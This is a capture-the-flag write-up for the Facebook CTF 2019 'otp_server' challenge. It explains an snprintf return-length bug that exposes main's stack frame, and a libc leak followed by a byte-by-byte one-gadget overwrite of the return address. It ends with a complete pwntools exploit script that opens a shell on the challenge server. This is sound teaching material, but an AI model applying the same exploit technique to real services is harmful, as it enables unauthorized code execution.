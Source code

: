 # Facebook CTF 2019 - otp_server

```
void __fastcall encrypt_message(void *main_var_ptr)
{
  int v1; // ST1C_4
  __int64 v2; // ST20_8

  v1 = get_rand_val();
  *(_DWORD *)main_var_ptr = v1;
  v2 = snprintf((char *)main_var_ptr + 4, 0x104uLL, "%s", g_buffer);
  *(_DWORD *)((char *)main_var_ptr + v2 + 4) = v1;
  xor_encrypt(main_var_ptr);
  print_result(main_var_ptr, v2 + 8);
}
```
get_rand_val() reads 4bytes from /dev/urandom, whose values we cannot know.
In main, there is buffer that can store 0x108 bytes. snprintf func has vulnerability.

snprintf returns the length of result string printed at buffer if buffer was large enough.
Though snprintf limits the length of result string by 0x104, it can return the value larger than 0x104.
**It's because g_buffer and g_key are adjacent.** We send 0x100 non-null bytes in get_message(), then
`sprintf(..., g_buffer)` returns `0x100 + length of g_key`. Eventually this vulnerability enables
reading and writing main func's stackframe.

So we read main func's return address, which is __libc_start_main, calculating libc base address.
Then overwrites the return address with one gadget.
But the value that is overwritten is random value. We should do bruteforce-like attack.

xor_encrypt() encrypts given message with the key, and print_result() prints the encrypted message.
We can know the random value with first four bytes from printed message. So repeatedly call encrypt_message() until the printed values equals
the value that we want to overwrite. We should write 8 bytes(one gadget address, e.g. 0x00007fff12345678).
To make exploit fast, writing was done eight times, one byte at a time.

```
ssize_t set_key()
{
  return read(0, g_key, 0x108uLL);
}

ssize_t get_message()
{
  return read(0, g_buffer, 0x100uLL);
}

.bss:00000000002020E0 ; char g_buffer[256]
.bss:00000000002020E0 g_buffer        db 100h dup(?)
.bss:00000000002020E0                               
.bss:00000000002021E0 ; char g_key[264]
.bss:00000000002021E0 g_key           db 108h dup(?)
```

Exploit code is as follows.
```
from pwn import *

bin = ELF('./otp_server')
libc = ELF('./libc-2.27.so')

# context.log_level = 'debug'
one_gadget_offset = 0x10a38c


def SetKey(key):
    conn.sendafter('>>> ', str(1))
    conn.sendafter('Enter key:\n', key)


def Encrypt(msg):
    conn.sendafter('>>> ', str(2))
    conn.sendafter('Enter message to encrypt:\n', msg)


# conn = process('./otp_server', env={'LD_PRELOAD':'./libc-2.27.so'})
# gdb.attach(conn, '')
conn = remote('challenges.fbctf.com', 1338)

SetKey('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')
Encrypt('B'*0x100)
conn.recvuntil('-----\n')
conn.recv(0x118)
libc_addr = u64(conn.recv(8)) - 0x21b97
one_gadget_addr = libc_addr + one_gadget_offset

log.info('libc_addr: ' + hex(libc_addr))
log.info('one_gadget_addr: ' + hex(one_gadget_addr))


key = 'AAAAAAAAAAAAAAAAAAA\x00'
for i in range(8):
    key = 'A' + key
    SetKey(key)

    while True:
        find_byte = (one_gadget_addr >> (8 * i)) & 0xff

        Encrypt('B'*0x100)
        conn.recvuntil('-----\n')
        val = u8(conn.recv(1)) ^ 0x41

        if val == find_byte:
            log.info(hex(find_byte)+' matched')
            break

conn.sendafter('>>> ', str(3))
conn.sendline('cd home;cd otp_server;cat flag')
conn.interactive()
```